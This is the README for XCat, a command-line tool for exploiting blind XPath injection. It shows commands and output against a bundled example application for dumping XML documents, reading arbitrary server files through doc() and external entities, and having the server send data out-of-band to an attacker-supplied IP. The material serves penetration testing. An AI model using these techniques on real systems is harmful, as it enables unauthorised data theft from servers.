 XCat
====

XCat is a command line program that aides in the exploitation of blind XPath injection vulnerabilities. It can be used
to retrieve the whole XML document being processed by a vulnerable XPath query, read arbitrary files on the hosts filesystem
and utilize out of bound HTTP requests to make the server send data directly to xcat.

XCat is built to exploit boolean XPath injections (Where only one bit of data can be extracted in one request)
and it requires you to manually identify the exploit first, this does not do that for you.

Features
--------
* Exploits both GET and POST attacks
* Extracts all nodes, comments, attributes and data from the entire XML document
* Small and lightweight (only a few pure-python dependencies)
* Parallel requests
* XPath 2.0 supported (with graceful degrading to 1.0)
* Advanced data postback through HTTP (see below)
* Arbitrarily read XML files on the servers file system via the doc() function (see below)
* Arbitrarily read text files on the servers file system via crafted SYSTEM entities

Features planned for future releases:

* [Regex](http://www.w3.org/TR/xpath-functions/#func-matches) pattern matching to reduce character search space
* [Unicode normalization](http://www.w3.org/TR/xpath-functions/#func-normalize-unicode)
* Error based retrieval

Examples
--------
If you run a windows machine you can install IronPython and start the example application (example_application/ironpython_site.py).
The syntax for a simple command you can execute against this server is:

    xcat --public-ip="localhost" http://localhost:80 title=Bible title "Book found" run retrieve

This command specifies the target URL (our localhost server), the GET or POST data to send (title=Bible), the vulnerable
parameter (title) and a string to indicate a true response (Book found). Executing this will retrieve the entire XML file
being queried.

    >> xcat --public-ip="localhost" http://localhost:80 title=Bible title "Book found" run retrieve
    Injecting using SingleQuoteString
    Detecting features...
    Supported features: XPath 2, String to codepoints, External DOC function, Entity injection, Substring search speedup
    Retrieving /*[1]
    <?xml version="1.0" encoding="utf-8"?>
    <lib test="1" attribute1="3">
        <book>
                <!-- Comment -->
                <title>Bible</title>
                <description another="attribute">The holy book</description>
    ...

The the retrieval of documents can be sped up in a number of different ways, such as using the doc function to make the
server send data directly to XCat (explained in more detail below). Each of the techniques is called a feature and can
be viewed by using the `test_injection` command. This will display information about the injection, including the
type (integer, string, path name) and various features that XCat has is able to use. XCat knows which features
are best and will gracefully degrade if they fail for any reason.
    
    >> xcat --public-ip="localhost" http://localhost:80 "title=Bible" title "Book found" test_injection
    Testing parameter title:
    SingleQuoteStringInjection:             /lib/book[name='?']
        - XPath2
        - CodepointSearch
        - DocFeature
        - EntityInjection
        - EfficientSubstringSearch

Usage
-----
Before specifying what data you want to extract from the injection you need to tell XCat how to exploit it. XCat can't
do this for you, so you have to do the initial hard work of finding a vulnerability. XCat needs a target URL it can
reach, URL encoded arguments, the vulnerable parameter and a string to match in the response. The initial data given
must be valid and trigger either a true or false response.

    Usage: xcat [OPTIONS] TARGET ARGUMENTS TARGET_PARAMETER MATCH_STRING
                      COMMAND [ARGS]...

    Options:
      --method TEXT                   HTTP method to use
      --true                          match_string indicates a true response
      --false                         match_string indicates a false response
      --loglevel [debug|info|warn|error]
      --logfile FILENAME
      --public-ip TEXT                Public IP address to use with OOB
                                      connections
      --help                          Show this message and exit.

    Commands:
      run
      test_injection  Test parameter for injectability

The two most useful commands are `run retrieve` and `run file_shell`. The first allows you to retrieve the whole document
being processed by the query in either XML or JSON format and specify a file for it to be dumped to.

    Usage: xcat-script.py run retrieve [OPTIONS]

    Attempt to retrieve the whole XML document

    Options:
      --query TEXT         Query to retrieve. Defaults to root node (/*[1])
      --output FILENAME    Location to output XML to
      --format [xml|json]  Format for output
      --help               Show this message and exit.

The second command takes no additional arguments but enables you to read arbitrary files on the filesystem. This only
works if the vulnerable parameter supports the doc feature (and optionally entity injection):

    >> xcat --public-ip="localhost" http://localhost:80 "title=Bible" title "Book found" run file_shell
    Injecting using SingleQuoteString
    Detecting features...
    Supported features: XPath 2, String to codepoints, External DOC function, Entity injection, Substring search speedup
    There are three ways to read files on the file system using XPath:
     1. inject: Can read arbitrary text files as long as they do not contain any XML
     2. comment: Can read arbitrary text files containing XML snippets, but cannot contain '-->'
     3. doc: Reads valid XML files - does not support any other file type. Supports remote file URI's (http) and local ones.
    Type doc, inject or comment to switch modes. Defaults to inject
    Type uri to read the URI of the document being queried
    Note: The URI should have a protocol, e.g: file:///test.xml. Bad things may happen if the URI does not exist, and it is best to use absolute paths.
    >> uri
    URI: file:///C:/Users/x/xcat/src/example_application/input.xml
    >> file:///C:/Users/x/xcat/src/example_application/
    secret.txt
    secret.xml
    ...
    >> doc
    Switched to doc mode
    >> file:///C:/Users/x/xcat/src/example_application/secret.xml
    <?xml version="1.0" encoding="utf-8"?>
    <this_contains_xml>
        <node>
            hello
    ...
    >> inject
    Switched to inject mode
    >> file:///C:/Users/x/xcat/src/example_application/secret.txt
    This is a secret file. Do not read me!

### Simple usage with the example application
Check out the [readme](src/example_application) to try out XCat with the provided example application.


HTTP Postback / doc function and entity injection
----------------------------

Possibly the most advanced feature of XCat is its 'HTTP postback' feature. The XPath 2.0 schema defines a function
called [doc](http://www.w3.org/TR/xpath-functions/#func-doc) which allows the programmer to load external documents
from the file system or even from a remote network resource via HTTP/HTTPS. If the doc function is enabled and working
then XCat will use it where possible to greatly speed up document retrieval times. It does this by running a small HTTP
server within the program which listens on a specified port and by then calling the doc() function with the currently
targeted node's data URI encoded and appended to a query. This means the XPath library will make a HTTP request to your
IP (requires the port to be forwarded and/or a public IP) in the following format similar to:

	http://YOUR_IP/?data=some%20data%20goes%here

This is far more efficient than iterating over the string character by character and can greatly reduce the retrieval times.

You can (ab)use this function to load XML file on the system, as long as you have read permissions over it, allowing
you to retrieve lots of lovely XML configuration files - you can jump into a pseudo-shell within XCat by using
the fileshell command (shown above) and enter the file path for an XML file.

This can be taken one step further by using entity injection to read arbitrary files on the file system. XCat does this
by starting a HTTP server and makes the vulnerable application load an XML file from it. This XML file contains crafted
DOCTYPE declarations that cause the application to include local files in the XML file as it is being parsed, the contents
of which can then be queried and sent back to XCat in another HTTP request.

[This OWASP wiki page](https://www.owasp.org/index.php/XML_External_Entity_(XXE)_Processing) covers this technique in
more detail.

